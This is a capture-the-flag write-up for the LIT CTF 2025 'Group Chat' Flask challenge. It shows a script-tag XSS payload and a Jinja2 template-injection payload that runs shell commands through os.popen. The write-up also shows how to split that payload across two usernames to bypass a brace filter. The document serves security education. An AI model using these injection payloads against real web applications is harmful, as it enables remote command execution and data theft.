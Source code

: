 
# WhiteDukesDZ - LIT CTF 2025 Writeup: Group Chat Challenge

![WhiteDukesDZ Logo](challenge/web-group-chat.png)

We were also provided with the `main.py` file as part of this challenge.

---

## Challenge Summary

This challenge presented a simple Python Flask web application simulating a group chat. The goal was to analyze the application for vulnerabilities and exploit them to retrieve the flag.

## Provided Files
- `main.py` (Flask web app)
- Challenge image (see above)

## Application Analysis

After reviewing `main.py`, we identified three main endpoints:

1. **`/` (Home):**
    - If `username` is not set in the session, redirects to `/set_username`.
    - Otherwise, renders the chat page.

2. **`/set_username`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, displays a username form.
    - On `POST`, verifies the provided `username`:
      - If `username` length > 1000, registration is refused.
      - If `username` contains both `{` and `}`, registration is refused.
      - Otherwise, registration is accepted and redirects to `/`.

3. **`/send_message`:**
    - Accepts only `POST` requests with a `message`.
    - If `username` is not set in session, redirects to `/set_username`.
    - If `message` contains non-alphanumeric symbols, message is refused.
    - Otherwise, message is added to `chat_logs` as `username: message` and redirects to `/`.

### Security Observations

- The `/set_username` endpoint does not filter for XSS payloads in the `username` field. For example, setting `username` to `<script>alert('WhiteDukesDZ')</script>` and sending a message will execute the JavaScript payload:

  ![WhiteDukesDZ Logo](demonstration/xss.png)

- However, since the code executes only on the client side and there is no admin bot, this XSS cannot be leveraged to obtain the flag.

### Template Rendering

The chat logs are rendered as follows:

```python
<div id="chat-box">''' + '<br>'.join(chat_logs) + '''
</div>
```

If `chat_logs` is:

```python
chat_logs = [
     "username1: message1",
     "username2: message2"
]
```

It will be rendered as:

```html
username1: message1<br>username2: message2
```

And since we can control both `username1`, `message1`, `username2` and `message2` we certainly can cause a <ins>Server Side Template Injection</ins>

To confirm the possibility of a <ins>Server Side Template Injection (SSTI)</ins>, we can leverage our control over both `username` and `message` fields. This allows us to attempt injecting a Jinja2 payload that could execute server-side code.

**Local Testing:**
1. Create a `flag.txt` file in the same directory as `main.py`:
  ```sh
  echo "FLAG{REDACTED}" > flag.txt
  ```
2. Modify the template in `main.py` for the `/` route to include a test payload that reads the contents of `flag.txt`:
  ```python
  <div>{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}</div>
  ```
3. Run the Flask app locally:
  ```sh
  python3 main.py
  ```
4. Visit `http://localhost:5000`, set a `username`, and navigate to `/`. You should see the contents of `flag.txt` displayed on the page.

![WhiteDukesDZ Logo](demonstration/local-test.png)

However, on the remote instance, we cannot modify `main.py` directly. Therefore, our goal is to inject a payload through user input that results in the template rendering something like:

```html
{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```

by carefully crafting the values of `username` and `message`.
---

## Solution

To exploit the SSTI vulnerability and retrieve the flag, our goal was to make the rendered chat log look like:

```python
{{cycler.__init__.__globals__.os.popen('cat flag.txt').read()}}
```

Since we control both `username` and `message`, we can split the payload across two users/messages. Our approach:

- `username1 = {{cycler.__init__.__globals__.os.popen('cat flag.txt`
- `message1 = dummy`
- `username2 = '[:12]).read()}}`
- `message2 = dummy`

This results in the following template being rendered:

```python
{{cycler.__init__.__globals__.os.popen('cat flag.txt: <br>'[:12]).read()}}
```

which is functionally equivalent to our intended payload, as the injected `<br>` and extra characters are ignored by the Python slice.

We automated this process in `solution/solve.py`. To run the exploit against the remote instance provided by LIT CTF:

```sh
python3 solve.py
```

If successful, the script will output the flag:

```sh
Username set successfully.
Message sent successfully.
Username set successfully.
Message sent successfully.
LITCTF{1m_g0nn4_h4v3_t0_d0_m0r3_t0_5t0p_7he_1n3v1t4bl3_f0rw4rd_br4c3_f0rw4rd_br4c3_b4ckw4rd_br4c3_b4ckw4rd_br4c3}
```



